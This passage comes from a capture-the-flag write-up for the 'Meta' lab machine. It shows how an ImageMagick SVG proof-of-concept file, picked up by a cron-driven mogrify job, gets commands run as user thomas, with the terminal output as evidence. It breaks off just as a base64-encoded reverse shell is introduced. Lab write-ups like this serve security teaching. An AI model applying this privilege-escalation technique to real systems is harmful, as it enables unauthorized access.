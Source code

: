 

It's also important to note that the third to last line has a reference
back to the file, `poc.svg`. I'll need to call it that on Meta, or the
exploit won't work.

I'll serve that file with Python, and upload it to Meta with `wget`. I
can run the command as www-data and see what happens.



    www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ mogrify -format png *.*    
    sh: 1: : Permission denied
    mogrify: MagickCore/image.c:1168: DestroyImage: Assertion `image != (Image *) NULL' failed.
    Aborted



It created a file:



    www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/.0xdf 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



This is where I figured out that the name needed to match what was in
the file. If there's a mismatch:



    www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ mogrify -format png *.*
    mogrify: unable to open image 'poc.svg': No such file or directory @ error/blob.c/OpenBlob/3537.
    mogrify: unable to open file 'poc.svg': No such file or directory @ error/msl.c/ProcessMSLScript/7839.
    mogrify: non-conforming drawing primitive definition `image' @ error/draw.c/RenderMVGContent/4458.



It's complaining that it can't open `poc.svg`.

I'll delete `/dev/shm/.0xdf`, make sure the name is correct, and wait
for the minute to roll over. Once it does, `.0xdf` is back, and this
time, it's owned by thomas and the contents show it was run by thomas:



    www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ ls -la /dev/shm/
    total 3012
    drwxrwxrwt  2 root     root          80 Jun  3 17:08 .
    drwxr-xr-x 16 root     root        3080 Jun  3 14:40 ..
    -rw-r--r--  1 thomas   thomas        54 Jun  3 17:08 .0xdf
    -rwxr-xr-x  1 www-data www-data 3078592 Dec  6 15:32 pspy64 
    www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/.0xdf
    uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)    



#### Shell

To avoid special characters, I'll base64 encode a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw):
